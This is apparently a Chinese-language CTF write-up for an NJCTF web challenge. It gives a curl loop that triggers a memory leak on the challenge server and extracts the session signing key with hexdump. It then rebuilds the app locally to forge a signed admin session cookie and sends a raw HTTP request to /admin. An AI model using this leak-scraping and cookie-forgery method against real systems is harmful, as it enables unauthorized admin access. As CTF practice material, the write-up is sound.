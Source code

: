 Here's one with only letters:

```
cbaabcdljdac : cadbfdfecdcdcdacdbbbfadbcccefabd
```

输入md5后，全为数字的数据后，会回显数据。

内存泄漏

写一个1.sh

```sh
while ((1));do
    curl http://218.2.197.235:23729/login --data '{"password":"afnnsd"}' -H "Content-Type: application/json" -i
done
```

可以看到很明显的内存泄漏

可以找到数据

`./1.sh| hexdump -C >1.txt`

NJCTF{P1e45e_s3arch_th1s_s0urce_cod3_0lddriver}

然后到github上下载源码，在本地跑一下。

https://github.com/0lddriver/app

将config.js中的数据改一下

```js
var config = {};
config.secret_password = ""
config.session_keys = ["NJCTF{P1e45e_s3arch_th1s_s0urce_cod3_0lddriver}"]
module.exports = config;
```

然后，修改app.js中的no为yes

```js
app.use(function(req, res, next) {
  if(req.session.admin === undefined) {
    req.session.admin = 'yes';
  }
  next();
});
```

这样就能得到{"admin":"yes"}的签名

session=eyJhZG1pbiI6InllcyJ9; session.sig=DLXp3JcD1oX3c8v4pUgOAn-pDYo

然后去请求一下admin

```
GET /admin HTTP/1.1
Host: 218.2.197.235:23729
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:50.0) Gecko/20100101 Firefox/50.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Cookie: session=eyJhZG1pbiI6InllcyJ9; session.sig=DLXp3JcD1oX3c8v4pUgOAn-pDYo
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
If-None-Match: W/"471-PF7BbTeX0i15/QjaTjk5Ww"
```
